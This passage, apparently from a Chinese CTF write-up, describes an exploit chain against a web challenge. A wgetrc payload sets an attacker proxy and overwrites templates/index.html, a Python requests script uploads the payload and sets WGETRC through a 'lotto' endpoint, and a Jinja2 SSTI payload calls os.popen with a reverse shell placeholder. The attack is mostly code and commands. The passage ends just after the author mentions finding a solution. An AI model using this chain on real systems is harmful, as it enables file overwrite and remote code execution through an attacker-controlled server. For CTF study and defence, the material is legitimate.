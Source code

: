 payload

首先写入环境变量

```
http_proxy=http://xxxxx
output_document = templates/index.html
```

其中res.txt中内容就是上面的

y4的脚本

```python
import requests

def web():
    url = "http://xxx.xx.xx.xxx:12345/"

    r = requests.post(url + "forecast",
                      files={'file': open("D:\\Desktop\\res.txt", "rb")})

    data = {
        "lotto_key": "WGETRC",
        "lotto_value": "/app/guess/forecast.txt"
    }

    r = requests.post(url + "lotto", data=data)
    print(r.text)
    r = requests.get(url)



if __name__ == '__main__':
    web()

```

云服务器监听端口，先监听再跑脚本

然后控制返回内容

```
{{config.__class__.__init__.__globals__['os'].popen('反弹shell').read()}}
```

![image-20220421151755912](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220421151755912.png)

我们作为中间人，控制返回内容，写入文件中

![image-20220421151856308](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220421151856308.png)

成功写入，访问`index.html`，触发SSTI。

但是这儿我自己搭建环境复现时，成功写入，访问界面，不能触发。

最后找到了解决方案

